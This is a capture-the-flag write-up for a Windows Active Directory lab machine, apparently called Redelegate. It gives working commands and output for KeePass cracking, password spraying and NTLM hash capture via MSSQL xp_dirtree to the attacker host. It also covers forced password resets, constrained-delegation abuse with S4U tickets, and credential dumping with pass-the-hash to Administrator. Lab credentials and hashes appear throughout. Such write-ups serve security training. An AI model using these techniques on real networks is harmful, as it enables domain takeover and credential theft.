




| Port | Services      | Informations          |
| ---- | ------------- | --------------------- |
| 21   | Microsoft FTP | FTP anonymous enabled |
| 53   | DNS           |                       |
| 80   | HTTP          | IIS 10.0              |
| 3389 | RDP           |                       |
| 5985 | WinRM         |                       |
# Web enumeration

```sql
feroxbuster -u http://10.129.234.50/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.234.50/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       95w     1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      334l     2089w   180418c http://10.129.234.50/iisstart.png
200      GET       32l       55w      703c http://10.129.234.50/
400      GET        6l       26w      324c http://10.129.234.50/error%1F_log
[####################] - 24s    30003/30003   0s      found:3       errors:0
[####################] - 24s    30000/30000   1258/s  http://10.129.234.50/
```
-> Nothing
# SMB enumeration
```bash
💻 10.10.14.38 📁 Redelegate # nxc smb redelegate.vl -u '' -p '' --shares
10.129.234.50   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:False)
10.129.234.50   445    DC               [+] redelegate.vl\:
10.129.234.50   445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED
💻 10.10.14.38 📁 Redelegate # nxc smb redelegate.vl -u 'Guest' -p '' --shares
10.129.234.50   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:False)
10.129.234.50   445    DC               [-] redelegate.vl\Guest: STATUS_ACCOUNT_DISABLED
💻 10.10.14.38 📁 Redelegate # nxc smb redelegate.vl -u 'mister' -p 'mister' --shares
10.129.234.50   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:False)
10.129.234.50   445    DC               [-] redelegate.vl\mister:mister STATUS_LOGON_FAILURE
```
# FTP enumeration
```shell
ftp> ls
10-20-24  12:11AM                  434 CyberAudit.txt
10-20-24  04:14AM                 2622 Shared.kdbx
10-20-24  12:26AM                  580 TrainingAgenda.txt
```
-> **Important in CyberAudit**
	-> Check for unused DC object
	-> Check for ACLs
-> **Important in TrainingAgenda.txt**
	-> SeasonYear! as password
# Auth as Marie.Curie
The box was created in 2024 because of Date in TrainingAgenda.txt, so lets create wordlist with 2024 inside:
```bash
Winter2024!
Spring2024!
Summer2024!
Fall2024!
Autumn2024!
```
And we get the password:
```markdown
$keepass$*2*600000*0*<SNIP>:Fall2024!
```
Lets dump all password inside csv:
```bash
echo 'Fall2024!' | keepassxc-cli export Shared.kdbx --format csv
```
-> All keepass creds
```Creds
Group	Title	Username	Password
Shared/IT	FTP	FTPUser	SguPZBKdRyxWzvXRWy6U -> Deprecated
Shared/IT	FS01 Admin	Administrator	Spdv41gg4BlBgSYIW1gF
Shared/IT	WEB01	WordPress Panel	cn4KOEgsHqvKXPjEnSD9
Shared/IT	SQL Guest Access	SQLGuest	zDPBpaF4FywlqIv11vii
Shared/HelpDesk	KeyFob Combination		22331144
Shared/Finance	Timesheet Manager	Timesheet	hMFS4I0Kj8Rcd62vqi5X
Shared/Finance	Payrol App	Payroll	cVkqz4bCM7kJRSNlgx2G
```
## Connect to MSSQL
```bash
mssqlclient.py SQLGuest:zDPBpaF4FywlqIv11vii@dc.redelegate.vl
> enum_db
	Nothing interesting here
```
### Retrieve MSSQL hash
```bash
# 1. Setup responder
responder -i tun0 -wdv
# 2. Use xp_dirtree to send request to our attack box
xp_dirtree \\10.10.14.38\share
# 3. Get NetNTLM hash of sql_svc account
sql_svc::REDELEGATE:1122334455667788:C770B7<SNIP>21A5AE
```
-> Impossible to crack with hashcat
### Enumerate user since MSSQL
[resource](https://www.netspi.com/blog/technical-blog/network-pentesting/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/#enumda) 
```bash
> select DEFAULT_DOMAIN() as mydomain;
mydomain
----------
REDELEGATE

> select SUSER_SID('REDELEGATE\Domain Admins')
-----------------------------------------------------------
b'010500000000000515000000a185deefb22433798d8e847a00020000' # get domain SID and 20000 is the RID of the group
-> SID here is HEX encoded

010500000000000515000000a185deefb22433798d8e847aF4010000 -> ADMIN user SID

> SQL (SQLGuest  guest@master)> select SUSER_SNAME(0x010500000000000515000000a185deefb22433798d8e847aF4010000);
-----------------------------
WIN-Q13O908QBPG\Administrator
```
-> Create enumuser.py and dump domain user's:
```makefile
Christine.Flanders
Marie.Curie
Helen.Frost
Michael.Pontiac
Mallory.Roberts
James.Dinkleberg
Helpdesk
IT
Finance
DnsAdmins
DnsUpdateProxy
Ryan.Cooper
sql_svc
FS01$
DC$
SQLServer2005SQLBrowserUser$WIN-Q13O908QBPG
```
Or we can use `msf6 auxiliary(admin/mssql/mssql_enum_domain_accounts)` module
## Password Spray on domain
-> Lets make password list:
```pass
Fall2024!
SguPZBKdRyxWzvXRWy6U
Spdv41gg4BlBgSYIW1gF
cn4KOEgsHqvKXPjEnSD9
zDPBpaF4FywlqIv11vii
22331144
hMFS4I0Kj8Rcd62vqi5X
cVkqz4bCM7kJRSNlgx2G
```
-> And password spray
```bash
nxc smb redelegate.vl -u users.txt -p passwords.txt --continue-on-success
SMB         10.129.234.50   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.50   445    DC               [-] redelegate.vl\Christine.Flanders:Fall2024! STATUS_LOGON_FAILURE
SMB         10.129.234.50   445    DC               [+] redelegate.vl\Marie.Curie:Fall2024!
```
# Shell as Helen.Frost

```bash
⚡ 🔐 root@exegol-main 💻 10.10.14.38 📁 Redelegate # netexec smb dc.redelegate.vl -u Marie.Curie -p 'Fall2024!' -M change-password -o USER=helen.frost NEWPASS=Password123
SMB         10.129.234.50   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.50   445    DC               [+] redelegate.vl\Marie.Curie:Fall2024!
CHANGE-P... 10.129.234.50   445    DC               [+] Successfully changed password for helen.frost
⚡ 🔐 root@exegol-main 💻 10.10.14.38 📁 Redelegate # netexec winrm dc.redelegate.vl -u Helen.Frost -p Password123
WINRM       10.129.234.50   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
WINRM       10.129.234.50   5985   DC               [+] redelegate.vl\Helen.Frost:Password123 (admin)
⚡ 🔐 root@exegol-main 💻 10.10.14.38 📁 Redelegate # evil-winrm -i dc.redelegate.vl -u helen.frost -p 'Password123'
```
# Shell as Administrator
```bash
 whoami /priv

Privilege Name                Description                                                    State
============================= ============================================================== =======
SeMachineAccountPrivilege     Add workstations to domain                                     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                                       Enabled
SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegation Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                                 Enabled
```
**In AD we have 3 types of delegation:**
- **Unconstrained delegation** - A machine configured with this mechanism has the ability to store a TGT for any user that connects to it, and use those to authenticate as those users. To configure this, an account with `SeEnableDelegationPrivilege` will modify the `userAccountControl` attribute of the machine to include the `TRUSTED_FOR_DELEGATION` flag.
- **Constrained delegation** - A machine configured with this mechanism is able to impersonate a user to a specific defined machine. The `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` flag on `userAccountControl` is set (by a user with `SeEnableDelegationPrivilege`), and the `msDS-AllowToDelegate` attribute is set to the SPN that the machine can authenticate to.
- **Resource-based constrained delegation (RBCD)** - This configuration allows a machine to control who can delegate to it. `SeEnableDelegationPrivilege` is not involved here.
## Exploit Constrained delegation

-> We can see that we have GenericAll over FS01$
```bash
# 1. Act as LDAP service
Set-ADAccountControl -Identity "FS01$" -TrustedToAuthForDelegation $True
Set-ADObject -Identity "CN=FS01,CN=COMPUTERS,DC=REDELEGATE,DC=VL" -Add @{"msDS-AllowedToDelegateTo"="ldap/dc.redelegate.vl"}
# 2. Change computer password
netexec smb dc.redelegate.vl -u helen.frost -p Password123 -M change-password -o USER='FS01$' NEWPASS=Password123
# 3. Request LDAP service Ticket
getST.py 'redelegate.vl/FS01$:Password123' -spn ldap/dc.redelegate.vl -impersonate dc
Impacket v0.13.0.dev0+20250717.182627.84ebce48 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating dc
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in dc@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache
# Auth as LDAP service on the DC as the DC machine
KRB5CCNAME=dc@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache secretsdump.py -k -no-pass dc.redelegate.vl
```
Shell as **Administrator:**
```bash
evil-winrm -i dc.redelegate.vl -u Administrator -H ec17f7a2a4d96e177bfd101b94ffc0a7
*Evil-WinRM* PS C:\Users\Administrator> cd "C:/Users/Administrator/Desktop/"
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type "C:/Users/Administrator/Desktop/root.txt"
f84f480d2a6a357c0c5092b9f4f92cd0
```
